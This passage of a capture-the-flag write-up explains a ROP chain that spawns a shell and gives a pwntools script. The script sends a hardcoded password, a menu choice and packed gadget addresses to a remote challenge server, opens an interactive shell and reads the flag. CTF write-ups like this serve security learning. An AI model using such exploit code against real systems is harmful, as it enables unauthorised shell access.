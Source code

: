 Additionally this code was loaded at constant offset in memory, so this should be easy as PWN 100 in High-School CTF.

Our ROP chain will look like this:

```
[pop rdi gadget]
"/bin/sh"
[shellcode]
```

So we'll pop "/bin/sh" to edi, and execute execve systall with it.

Easy enough wth pwnlib!

```python
from pwn import *

r = remote('110.10.212.139', 50410)

print r.recv()

r.send('$W337k!++y\n')

print r.recv()
print r.recv()

r.send('3\n')

print r.recv()

import struct

ra = struct.pack('<Q', 0x14000)
gadget = struct.pack('<Q', 0x014036)
shell = struct.pack('<Q', 0x14029)

cat = gadget + shell + ra

print cat.encode('hex')

r.send(cat)

r.interactive()
```

Annd... It worked, and gave us flag (finally!):

```
$ cat fflag
flag{what a lovely kitty!}
```
